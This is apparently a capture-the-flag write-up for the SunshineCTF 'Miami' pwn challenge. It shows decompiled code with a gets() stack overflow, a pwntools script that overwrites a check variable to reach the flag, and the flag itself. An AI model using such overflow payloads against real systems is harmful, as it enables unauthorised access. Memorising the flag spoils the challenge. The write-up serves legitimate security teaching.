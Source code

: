 # Miami

```
Dexter is the prime suspect of being the Bay Harbor Butcher, we break into his login terminal and get the proof we need!

    miami

nc chal.sunshinectf.games 25601 
```

Decompile in IDA:

```c
int vuln()
{
  _QWORD v1[8]; // [rsp+0h] [rbp-50h] BYREF
  int v2; // [rsp+40h] [rbp-10h]
  int v3; // [rsp+4Ch] [rbp-4h]

  v3 = 0xDEADBEEF;
  memset(v1, 0, sizeof(v1));
  v2 = 0;
  printf("Enter Dexter's password: ");
  gets(v1);
  if ( v3 != 0x1337C0DE )
    return puts("Invalid credentials!");
  puts("Access granted...");
  return read_flag();
}
```

Stack overflow using `gets`. We can override `v3` to `0x1337C0DE` by:

```python
from pwn import *

elf = ELF("./miami")
context.binary = elf
context.terminal = ["tmux", "split-w", "-h"]
context(arch="amd64", os="linux", log_level="debug")

p = remote("chal.sunshinectf.games", 25601)
# p = process(["./miami"])
# gdb.attach(p)
# pause()
p.sendline(b"A"*76+p32(0x1337c0de))
p.interactive()
```

Flag: `sun{DeXtEr_was_!nnocent_Do4kEs_w4s_the_bAy_hRrb0ur_bu7cher_afterall!!}`.
